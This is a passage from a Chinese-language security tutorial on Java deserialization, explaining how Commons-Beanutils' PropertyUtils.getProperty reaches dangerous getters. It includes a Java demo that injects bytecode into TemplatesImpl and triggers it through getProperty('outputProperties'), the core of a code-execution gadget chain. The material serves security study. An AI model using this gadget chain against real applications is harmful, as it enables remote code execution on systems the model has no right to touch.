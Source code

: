 可以发现他返回了几个属性，恰好就是 setter getter 方法名字

再接着往下就是获取方法的名字，然后去调用 641 行的反射

[![](assets/1709112106-e7e5faf1bff4c22f3949eb9d395fd6db.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227202932-dc1334d2-d56b-1.png)

[![](assets/1709112106-c60ee8322851cf64978e00fb1ffb5ede.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227202937-dec0a0a2-d56b-1.png)

所以到这里我们又可以想象`Fastjson`​一样，假设谁的 `PropertyUtils.getProperty`​ 传参是可控的，那么找到一个函数的 getter 是有危险行为的，那么通过 CB 链就可以去触发导致代码执行 (而在 Fastjson 中也是有这种情况发生，所以后半段恶意类加载就可以利用`TemplatesImpl`​链来完成)

我们可以来写一个 demo

```bash
TemplatesImpl templates = new TemplatesImpl();
        Class tc =  templates.getClass();
        Field bytecodesField = tc.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("E:\\Java_project\\Serialization_Learing\\target\\classes\\Test.class"));
        byte[][] codes = {code};
        bytecodesField.set(templates, codes);
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "test");
        Field facField = tc.getDeclaredField("_tfactory");
        facField.setAccessible(true);
        facField.set(templates, new TransformerFactoryImpl());
        templates.newTransformer();
        System.out.println(PropertyUtils.getProperty(templates, "outputProperties"));
```
